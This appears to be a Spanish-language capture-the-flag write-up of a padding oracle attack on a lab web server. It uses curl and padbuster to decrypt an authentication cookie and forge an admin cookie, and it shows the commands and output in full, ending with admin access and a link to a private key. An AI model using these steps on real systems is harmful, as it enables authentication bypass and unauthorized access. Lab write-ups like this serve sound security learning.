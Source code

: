 --------------------
# Part 2: Padding oracle attack

La cookie que nos identifica es "auth = YBReycmID4kNzNqibgzqJoq%2BzD9LLtzn"
```php
print(base64_decode(urldecode("YBReycmID4kNzNqibgzqJoq%2BzD9LLtzn")));
# bytes sin sentido, pero sabemos que %2B es "+"
```
```console
└─$ curl -s http://10.10.10.18/index.php -b 'auth=YBReycmID4kNzNqibgzqJoq%2BzD9LLtzn';
# Te has logueado como cucuxii
└─$ curl -s http://10.10.10.18/index.php -b "auth=YBReycmID4kNzNqibgzqJoq%2B"
#Invalid padding 
```
Esto confirma que está encriptado con CBC o cofrado por bloques. Padbuster sirve para densencriptar cookies de este tipo (suele requerir tamaño de bloque de 8 bytes)
```console
└─$ padbuster http://10.10.10.18/index.php 'YBReycmID4kNzNqibgzqJoq%2BzD9LLtzn' 8 -cookies 'auth=YBReycmID4kNzNqibgzqJoq%2BzD9LLtzn'
*** Response Analysis Complete ***
1	1	200	1133	N/A
2 **	255	200	15	N/A
NOTE: The ID# marked with ** is recommended :2
(...)
[+] Decrypted value (ASCII): user=cucuxii
[+] Decrypted value (HEX): 757365723D6375637578696904040404
[+] Decrypted value (Base64): dXNlcj1jdWN1eGlpBAQEBA==
...
```
Ha sacado user=cucuxii
```console
└─$ padbuster http://10.10.10.18/index.php 'YBReycmID4kNzNqibgzqJoq%2BzD9LLtzn' 8 -cookies 'auth=YBReycmID4kNzNqibgzqJoq%2BzD9LLtzn' -plaintext 'user=admin'
[+] New Cipher Text (HEX): 0408ad19d62eba93
[+] Intermediate Bytes (HEX): 717bc86beb4fdefe
BAitGdYuupMjA3gl1aFoOwAAAAAAAAAA
```

```console
└─$ curl -s http://10.10.10.18/index.php -b 'auth=BAitGdYuupMjA3gl1aFoOwAAAAAAAAAA';
You are currently logged in as admin!
```
Si cambiamos la cookie por esta nueva entramos. Nos dan un enlace donde comparten una clave privada